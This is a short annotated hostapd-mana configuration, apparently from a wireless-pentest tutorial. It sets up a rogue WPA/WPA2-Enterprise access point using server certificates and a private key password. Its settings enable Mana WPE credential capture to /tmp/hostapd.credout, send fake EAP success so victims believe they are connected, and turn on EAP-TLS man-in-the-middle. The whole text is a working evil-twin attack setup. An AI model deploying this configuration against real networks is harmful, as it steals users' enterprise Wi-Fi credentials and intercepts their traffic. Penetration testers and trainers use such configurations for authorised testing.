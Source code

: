 ```bash
# We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
interface=wlan0
driver=nl80211

# Channel and mode
# Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
channel=1
# Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
hw_mode=g

# Setting up hostapd as an EAP server
ieee8021x=1
eap_server=1

# Key workaround for Win XP
eapol_key_index_workaround=0

# EAP user file we created earlier
eap_user_file=/tmp/mana.eap_user

# Certificate paths created earlier
ca_cert=/etc/freeradius/3.0/certs/ca.pem
server_cert=/etc/freeradius/3.0/certs/server.pem
private_key=/etc/freeradius/3.0/certs/server.key

# The password is actually 'whatever'
private_key_passwd=whatever
dh_file=/etc/freeradius/3.0/certs/dh

# Open authentication
auth_algs=1

# WPA/WPA2
wpa=3

# WPA Enterprise
wpa_key_mgmt=WPA-EAP

# Allow CCMP and TKIP
# Note: iOS warns when network has TKIP (or WEP)
wpa_pairwise=CCMP TKIP

# Enable Mana WPE
mana_wpe=1

# Store credentials in that file
mana_credout=/tmp/hostapd.credout

# Send EAP success, so the client thinks it's connected
mana_eapsuccess=1

# EAP TLS MitM
mana_eaptls=1
EOF
```
